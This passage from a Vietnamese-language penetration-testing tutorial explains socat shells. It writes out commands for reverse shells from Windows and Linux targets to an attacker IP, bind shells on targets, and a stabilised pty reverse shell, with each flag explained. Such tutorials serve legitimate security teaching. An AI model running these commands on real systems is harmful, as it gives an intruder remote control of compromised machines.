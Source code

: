         nc -lvnp <port>

*Kết nối từ Windows*:

    socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

Tùy chọn pipes buộc PowerShell (hoặc cmd.exe) sử dụng đầu vào và đầu ra tiêu chuẩn theo kiểu Unix.

*Kết nối từ Linux*:

    socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"

**Bind Shells**

*Trên mục tiêu Linux*:

    socat TCP-L:<PORT> EXEC:"bash -li"

*Trên mục tiêu Windows*:

    socat TCP-L:<PORT> EXEC:powershell.exe,pipes

Tùy chọn pipes giúp xử lý đầu vào và đầu ra giữa Unix và Windows CLI.

*Kết nối từ máy tấn công*:

    socat TCP:<TARGET-IP>:<TARGET-PORT> -

**Ổn định Shell TTY với Socat**

Một trong những ứng dụng mạnh mẽ nhất của Socat là tạo một reverse shell TTY hoàn toàn ổn định trên Linux. Kỹ thuật này chỉ hoạt động trên mục tiêu Linux.

*Listener trên máy tấn công*:

    socat TCP-L:<port> FILE:'tty',raw,echo=0

Lệnh này kết nối một cổng nghe với TTY hiện tại và tắt tiếng vang (echo). Nó tương đương với việc sử dụng Ctrl + Z, stty raw -echo; fg trong Netcat, nhưng ổn định ngay lập tức và kết nối với một TTY đầy đủ.

*Kết nối từ mục tiêu*:

    socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

=> Trong đó: 

- ***TCP:< attacker-ip >:< attacker-port >***: Kết nối đến listener trên máy tấn công.

- ***EXEC:"bash -li"***: Tạo một phiên bash tương tác.

- ***pty***: Cấp phát một thiết bị đầu cuối giả (pseudo-terminal) trên mục tiêu.

- ***stderr***: Đảm bảo thông báo lỗi được hiển thị trong shell.

- ***sigint***: Chuyển lệnh Ctrl + C vào tiến trình con, cho phép hủy lệnh trong shell.

- ***setsid***: Tạo tiến trình trong một phiên mới.

- ***sane***: Ổn định thiết bị đầu cuối, cố gắng "bình thường hóa" nó.

Ví dụ mô phỏng, ở bên trái, một trình lắng nghe đang chạy trên máy tấn công cục bộ, ở bên phải một mô phỏng về một mục tiêu bị xâm phạm, chạy với một lớp vỏ không tương tác. Sử dụng shell netcat không tương tác, thực thi lệnh socat đặc biệt và nhận shell bash tương tác đầy đủ trên trình nghe socat ở bên trái:
